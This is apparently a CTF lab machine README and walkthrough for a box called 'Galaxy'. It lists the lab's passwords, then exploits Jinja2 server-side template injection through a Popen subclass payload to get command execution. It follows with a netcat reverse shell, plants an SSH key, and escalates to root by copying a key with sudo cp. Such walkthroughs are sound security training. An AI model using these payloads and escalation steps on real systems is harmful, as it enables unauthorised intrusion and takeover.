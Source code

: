 # [Galaxy]

## Introduction

This machine inspired from this bug bounty report: https://hackerone.com/reports/125980<br>
Galaxy is medium level machine with SSTI vulnerability in register page and /usr/bin/cp privilege for root part. I suggest medium because getting shell is not straight forward it requires enumeration to get rce via SSTI, however players can do that by googling about SSTI. Player will learn about Popen subclassess and running multiple commands.
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is restricted page vulnerable to SSTI
3) Register page username vulnerable to SSTI which happened in real world. This box inspired from https://hackerone.com/reports/125980
4) For root privilege I allowed /usr/bin/cp which players need critical thinking
5) There is other user besides `web` and `root` (john,mathew,lily) and this is dummy user which has no password. I set them for box story and player needs to critical thinking to get shell after finding out sudo permissions

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/139af962-e96d-4f4b-bb40-642cbb41b017)

Enumerating subdomains and directories leads to nothing, let's register for discount! from /register directory
![image](https://github.com/user-attachments/assets/098e8733-963f-49a8-8a8f-4c62672cc313)

After registering we got the message and our username displayed in screen, since we do not have other attack vector let's try to find vulnerability from register page
<br>
After a long research we can find there is SSTI vulnerabilties!<br>
To exploit register with username: `user{{7+7}}`
![image](https://github.com/user-attachments/assets/2f0e3b44-2e52-4330-9346-6977ab12cbfd)


We need to know what template used, for that we use this formula:
![image](https://github.com/user-attachments/assets/14e9e059-81f0-45e6-b9bc-596ef8774d92)
<br>
Payload: `{{7*'7'}}`<br>
![image](https://github.com/user-attachments/assets/516558a4-bc09-473b-8984-ad5c9be9525d)


# Foothold

## Enumeration

We can confirm this is SSTI jinja2 vulnerability. After searching from [blogs](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and [PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md?ref=sec.stealthcopter.com) we need to find `Popen` class for rce<br>

1) First we need to find all classes<br>
Payload: `{{''.__class__.mro()[1].__subclasses__()}}`
![image](https://github.com/user-attachments/assets/a05c7c6e-0ba6-477f-80b3-156d00e34df4)
<br>
We have hundreds of classes including `Popen` which we will use for command execution

2) We need to find it's number for that we copy all of them paste it to `vi` then hit `ESC` and type: `:%s />/\r/g` and finally use `set number` command to sort them with numbers
![image](https://github.com/user-attachments/assets/bab7a081-9157-44d8-8411-e5240b4b7da1)

After using `set number` command inside `vi` we will search `Popen`:<br>
![Screenshot From 2025-03-01 14-04-30](https://github.com/user-attachments/assets/57e1a190-003f-42d1-a14d-b9f812f0e159)

We can see it is in number 522, let's confirm it<br>
<br>
To confirm we use this payload: `{{''.__class__.mro()[1].__subclasses__()[522]}}`
<br>
![image](https://github.com/user-attachments/assets/3ed0b098-5c14-44e9-b34b-69a269a5729b)


Next thing we need to use that process to gain command execution.
Payload: `{{''.__class__.mro()[1].__subclasses__()[522]('id',shell=True,stdout=-1).communicate()}}`
![image](https://github.com/user-attachments/assets/240c1cf0-f115-48d6-a940-1d3ba18c4a94)

We got a response!

Lastly to get shell we will use this payload:
````
{{''.__class__.mro()[1].__subclasses__()[522](['nc IP YOUR_PORT -e /bin/bash'],stdout=-1).communicate()}}
````
Don't forget to set netcat listener!<br>
![image](https://github.com/user-attachments/assets/bacd717c-624b-4d98-a2b5-dde2f0913929)

We got shell. Let's use ssh to get better shell<br>
We copy our public key to /home/web/.ssh/authorized_keys:
```
echo "your id_rsa.pub key" > /home/web/.ssh/authorized_keys
```
If you don't have generate using: `ssh-keygen -t rsa`<br>
After that we can login using our own private key located in /home/your_username/.ssh:
````
ssh -i id_rsa web@galaxy.htb
````
![image](https://github.com/user-attachments/assets/78d55493-9b75-416b-a3e8-91a59efb9a07)


# Privilege Escalation
There is README.txt file let's read it!
````
Dear developers!

We have ongoing "star map" project! We need to finish it as far as possible. 
User john has codes in his home directory start from these codes, but I can not disclose password of any user.
However all developers allowed to copy and paste project codes from devs directory of all user
Please do not store sensitive information in all /home/*/devs directory

Available codes:
/home/john/devs/star-map.js
/home/john/devs/star.html
/home/john/devs/stars.js
````
According to message we can copy everything from all /home/*/devs directory, we can confirm it by sudo rules:
![image](https://github.com/user-attachments/assets/12bd5b31-be6d-478a-ba27-91799c943cf2)
<br>
To get root user, we can copy pubic key of `web` user to the   `/root/.ssh/authorized_keys` locaton as a result we can use ssh without password<br>
Let's first copy our public key to the `devs` directory:
````
cp /home/web/.ssh/id_rsa.pub /home/web/devs/key
````
Then we will copy that public key from  `devs` directory to the `/root/.ssh/authorized_key` using root:
````
$ sudo /usr/bin/cp /home/web/devs/key /root/.ssh/authorized_keys 
$ ssh -i /home/web/.ssh/id_rsa root@192.168.0.107
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Feb 21 10:47:28 AM UTC 2025

  System load:  0.0               Processes:               109
  Usage of /:   44.8% of 7.79GB   Users logged in:         1
  Memory usage: 10%               IPv4 address for enp0s3: 192.168.0.110
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

16 updates can be applied immediately.
16 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Feb 21 10:30:09 2025 from 192.168.0.110
root@galaxy:~#
````

